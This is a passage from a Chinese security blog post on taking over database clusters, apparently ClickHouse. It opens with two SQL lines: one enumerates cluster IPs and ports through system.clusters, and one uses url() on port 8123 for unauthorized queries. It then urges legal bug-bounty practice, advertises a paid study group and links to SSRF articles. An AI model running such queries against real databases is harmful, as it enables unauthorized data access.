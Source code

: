 ```
select * from system.clusters 返回数据库集群ip以及端口开放情况
SELECT * fromurl(http:/192.168.1.1:8123?guery=showtables',CSV,'column1 String’) 利用8123或者8124端口，通过query后拼接sql语句未授权查询数据库信息（理论上是DBA权限）
```

  
  
  
关于后续  
  
基础的技术分享基本就到此结束了，后续有想到再做补充（写文章的时间东拼西凑，思路比较乱）。  
  
本来是打算分享几个国内外的  
数据库集群接管以及绕过的挖掘案例  
的，但是考虑到篇幅以及影响，就不在文章做分享了，但是相关技术会在团队内进行复盘分享。  
  
同时也希望各位师傅能够严格遵守网络安全法，在日常SRC的挖掘中也要严格遵守规则，守住底线，做一个网络安全的守护者。  
   
  
如果你是一个长期主义者，欢迎加入我的知识星球，本星球日日更新，绝非简单搬运，包含号主大量一线实战,全网独一无二，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
  
最新更新内容展示:  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7qibSQyrT4loWrqoPiarKBybicefEzt7QlI6eyAKWaGPvlJdZw14sKHdgeTdMAo17xX3stc4LaupQZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5EMr3X76qdKBrhIIkBlVVyuiaiasseFZ9LqtibyKFk7gXvgTU2C2yEwKLaaqfX0DL3eoH6gTcNLJvDQ/640?wx_fmt=png&from=appmsg "")  
## 往期回顾  
#   
# 如何利用ai辅助挖漏洞  
#   
# 如何在移动端抓包-下  
#   
# 如何绕过签名校验  
#   
  
[一款bp神器](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495880&idx=1&sn=65d42fbff5e198509e55072674ac5283&chksm=e8a5faabdfd273bd55df8f7db3d644d3102d7382020234741e37ca29e963eace13dd17fcabdd&scene=21#wechat_redirect)  
  
  
[挖掘有回显ssrf的隐藏payload](https://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496898&idx=1&sn=b6088e20a8b4fc9fbd887b900d8c5247&scene=21#wechat_redirect)  
  
  
[ssrf绕过新思路](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495841&idx=1&sn=bbf477afa30391b8072d23469645d026&chksm=e8a5fac2dfd273d42344f18c7c6f0f7a158cca94041c4c4db330c3adf2d1f77f062dcaf6c5e0&scene=21#wechat_redirect)  
  
  
[一个辅助测试ssrf的工具](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496380&idx=1&sn=78c0c4c67821f5ecbe4f3947b567eeec&chksm=e8a5f8dfdfd271c935aeb4444ea7e928c55cb4c823c51f1067f267699d71a1aad086cf203b99&scene=21#wechat_redirect)  
  
  
  
  
  
